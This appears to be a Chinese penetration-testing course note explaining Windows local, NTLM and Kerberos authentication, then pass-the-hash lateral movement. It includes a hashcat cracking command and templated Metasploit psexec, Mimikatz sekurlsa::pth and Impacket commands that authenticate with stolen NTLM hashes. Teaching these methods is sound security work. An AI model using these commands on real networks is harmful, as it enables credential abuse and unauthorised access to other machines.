

# 🛡️ 课程P81：第51天 - 域内横向移动：域认证及HASH传递攻击


在本节课中，我们将要学习Windows操作系统的认证机制，以及一种重要的横向移动攻击方法——哈希传递攻击。理解这些核心概念对于进行内网渗透测试至关重要。


## 🔐 Windows认证机制概述


上一节我们回顾了横向移动的基础知识，本节中我们来看看Windows系统是如何验证用户身份的。Windows认证主要分为三个部分：本地认证、网络认证和域认证。


### 本地认证


本地认证是指用户直接登录到本地计算机的过程。其核心流程如下：


1.  **用户输入密码**：用户在登录界面输入用户名和密码。
2.  **系统计算哈希值**：Windows系统将用户输入的密码通过特定算法（如NTLM）计算成哈希值。其公式可表示为：
    `NTLM Hash = MD4(UTF-16-LE(password))`
3.  **与SAM数据库比对**：系统将计算出的哈希值与存储在本地`SAM`文件数据库中的对应账户哈希值进行比对。
4.  **验证结果**：如果哈希值匹配，则认证成功，允许登录；否则失败。


本地认证的密码哈希存储在`C:\Windows\System32\config\SAM`文件中。`lsass.exe`进程负责处理此认证流程，并会在内存中临时保存明文密码，这也是Mimikatz等工具能够抓取明文密码的原理。


### 网络认证（NTLM挑战-响应机制）

当一台计算机需要访问同一工作组内另一台计算机的共享资源时，会触发网络认证。这是一个挑战-响应过程，主要分为三步：

以下是NTLM认证的三个核心步骤：

1.  **协商**：客户端与服务器协商使用的协议版本（如NTLM v1或v2）。
2.  **质询**：
    *   客户端将用户名发送给服务器。
    *   服务器检查用户是否存在。若存在，则生成一个随机数（Challenge），并使用该用户存储在服务器端的NTLM哈希加密此随机数，生成`Challenge1`存储在内存中。同时，服务器将明文的`Challenge`发送给客户端。
    *   客户端使用用户输入的密码生成的NTLM哈希，加密收到的`Challenge`，生成`Response`并发送回服务器。
3.  **验证**：服务器使用自己存储的NTLM哈希加密`Challenge`得到`Challenge1`，并与客户端发来的`Response`进行比对。若一致，则认证通过。

在此过程中，网络上传输的是`Net-NTLM Hash`（即`Response`），而非原始的NTLM哈希。`Net-NTLM Hash`可以被工具（如Hashcat）暴力破解以尝试还原明文密码。例如，使用Hashcat破解的命令格式如下：
```bash
hashcat -m 5600 netntlm_hash.txt password_dict.txt -o found.txt
```
其中，`-m 5600`参数指定了破解`Net-NTLMv2`哈希。

### 域认证（Kerberos协议）

在域环境中，认证主要通过Kerberos协议完成，它引入了一个可信的第三方——密钥分发中心。这个过程比前两种更为复杂。

上一节我们介绍了工作组环境下的认证，本节中我们来看看域环境的核心认证协议。Kerberos认证涉及三个主要角色：客户端、服务端和密钥分发中心。其简化流程如下：




以下是Kerberos认证的关键步骤与核心票据：


1.  **认证服务交换**：客户端向KDC的认证服务发送包含用户名的请求。AS验证用户后，生成一个**票据授予票据**和一个会话密钥，用用户密钥加密后返回给客户端。
2.  **票据授予服务交换**：客户端解密获得TGT和会话密钥。然后向KDC的票据授予服务发送TGT和请求访问的服务信息。TGS验证TGT后，生成一个用于访问特定服务的**服务票据**和新的会话密钥，返回给客户端。
3.  **客户端-服务器交换**：客户端将服务票据发送给目标服务器。服务器验证票据有效性后，建立连接。

在整个流程中，涉及多种密钥：
*   **Client Key**：用户密码的NTLM哈希。
*   **TGS Key**：`krbtgt`域账户的NTLM哈希，用于加密TGT。
*   **Service Key**：服务对应用户账户的NTLM哈希，用于加密服务票据。

理解Kerberos流程是理解后续票据传递攻击的基础。

## ⚔️ 哈希传递攻击

在无法获取明文密码，但获得了用户密码的NTLM哈希值时，可以使用哈希传递攻击进行横向移动。

上一节我们深入了解了各种认证机制，本节中我们来看看如何利用哈希值直接进行攻击。PTH攻击允许攻击者仅凭哈希值即可通过认证，无需知道明文密码。

### 攻击前提条件

以下是成功实施PTH攻击通常需要的条件：

*   目标主机开放`445`端口。
*   目标主机开启`IPC$`共享或`ADMIN$`共享。
*   拥有目标账户的NTLM哈希值。


### 攻击方法

#### 1. 利用Metasploit的PSEXEC模块

在Metasploit框架中，可以使用`psexec`模块并指定哈希值进行攻击。需要设置`SMBPass`参数，格式为`LM哈希:NT哈希`。若LM哈希未知，可用0填充。
```bash
use exploit/windows/smb/psexec
set RHOSTS [目标IP]
set SMBUser [用户名]
set SMBPass [LM哈希:NT哈希]
# 若在域内，还需设置 SMBDomain [域名]
run
```

#### 2. 利用Mimikatz进行PTH

使用Mimikatz的`sekurlsa::pth`功能可以直接在内存中注入哈希，生成一个新的具有相应权限的命令行窗口。
```bash
privilege::debug
sekurlsa::pth /user:[用户名] /domain:[目标IP或域名] /ntlm:[NT哈希]
```
执行成功后，会弹出新的命令行窗口，在此窗口中使用`net use`等命令访问目标共享时，将无需输入密码。

#### 3. 利用Cobalt Strike进行PTH

在Cobalt Strike中，可以通过`psexec`或`psexec_psh`模块，在选择凭证时直接使用捕获的哈希值来横向移动。

#### 4. 利用Impacket工具套件

Impacket工具包中的`wmiexec.py`和`psexec.py`脚本支持直接使用哈希进行认证。
```bash
# 使用 wmiexec.py 执行命令
python wmiexec.py -hashes [LM哈希:NT哈希] [域名]/[用户名]@[目标IP] "whoami"

# 使用 psexec.py 获取交互式shell
python psexec.py -hashes [LM哈希:NT哈希] [域名]/[用户名]@[目标IP]
```


#### 5. 利用PowerShell脚本批量检测

可以使用类似`Invoke-TheHash`的PowerShell脚本，对域内所有主机批量尝试哈希传递，快速定位可被攻击的目标。


## 📚 课程总结


本节课中我们一起学习了Windows系统的核心认证机制，包括本地认证、网络认证和复杂的域认证，并深入探讨了利用哈希值而非明文密码进行横向移动的哈希传递攻击方法。


理解这些认证原理是掌握内网渗透中权限维持与横向移动技术的关键基础。